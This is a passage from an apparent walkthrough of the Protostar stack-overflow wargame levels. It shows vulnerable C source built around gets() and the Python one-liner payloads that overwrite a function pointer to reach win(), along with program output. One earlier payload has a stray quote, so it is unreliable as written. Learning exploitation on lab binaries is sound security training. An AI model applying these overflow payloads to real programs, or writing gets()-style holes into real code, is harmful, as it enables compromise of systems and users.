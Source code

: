 GREENIE=`python -c "print 'A'*64' + '\x0a\x0d\x0a\x0d'"`
export GREENIE
./stack2
{% endhighlight %}
# Stack Three
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endhighlight %}
Vulnerability
The code on line 18 is still a problem, its allowing us to overflow a limited buffer. This time, we have a win function (line 6) that doesnt get called in normal condition flow. We can use our overflow to reach to EIP and direct program flow to that function.

Exploit:
{% highlight bash %}
# objdump -D stack3 | grep win
python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3
# calling function pointer, jumping to 0x08048424
# code flow successfully changed
{% endhighlight %}
# Stack Four
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{